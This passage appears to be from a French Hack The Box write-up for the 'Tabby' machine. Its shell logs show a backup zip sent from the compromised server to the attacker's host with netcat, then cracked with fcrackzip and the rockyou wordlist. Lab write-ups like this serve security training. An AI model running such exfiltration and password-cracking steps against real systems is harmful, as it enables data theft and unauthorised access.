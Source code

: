 ~~~
cd /var/www
tomcat@tabby:/var/www$ ls
ls
html
tomcat@tabby:/var/www$ cd html
cd html
tomcat@tabby:/var/www/html$ ls
ls
assets  favicon.ico  files  index.php  logo.png  news.php  Readme.txt
tomcat@tabby:/var/www/html$ cd files
cd files
tomcat@tabby:/var/www/html/files$ ls
ls
16162020_backup.zip  archive  revoked_certs  statement
~~~

On transfère le fichier sur notre machine avec netcat

~~~
tomcat@tabby:/var/www/html/files$ nc -w 3 10.10.14.133 4444 < 16162020_backup.zip
<es$ nc -w 3 10.10.14.133 4444 < 16162020_backup.zip
tomcat@tabby:/var/www/html/files$ 
~~~

Côté machine attaque:

~~~
root@Host-001:~/Bureau/htb/Tabby# nc -lp 4444 > 16162020_backup.zip
root@Host-001:~/Bureau/htb/Tabby# ls
16162020_backup.zip  hydra.restore  payload.war  tabby
root@Host-001:~/Bureau/htb/Tabby# 

root@Host-001:~/Bureau/htb/Tabby# unzip 16162020_backup.zip 
Archive:  16162020_backup.zip
   creating: var/www/html/assets/
[16162020_backup.zip] var/www/html/favicon.ico password: 
~~~

Fichier Zip protégé par un mdp -> on le crack avec fcrackzip

~~~ 
root@Host-001:~/Bureau/htb/Tabby# fcrackzip -v -D -u -p /usr/share/wordlists/rockyou.txt 16162020_backup.zip 
'var/www/html/assets/' is not encrypted, skipping
found file 'var/www/html/favicon.ico', (size cp/uc    338/   766, flags 9, chk 7db5)
'var/www/html/files/' is not encrypted, skipping
found file 'var/www/html/index.php', (size cp/uc   3255/ 14793, flags 9, chk 5935)
found file 'var/www/html/logo.png', (size cp/uc   2906/  2894, flags 9, chk 5d46)
found file 'var/www/html/news.php', (size cp/uc    114/   123, flags 9, chk 5a7a)
found file 'var/www/html/Readme.txt', (size cp/uc    805/  1574, flags 9, chk 6a8b)
checking pw arizon1                                 

PASSWORD FOUND!!!!: pw == admin@it
root@Host-001:~/Bureau/htb/Tabby# 
~~~ 
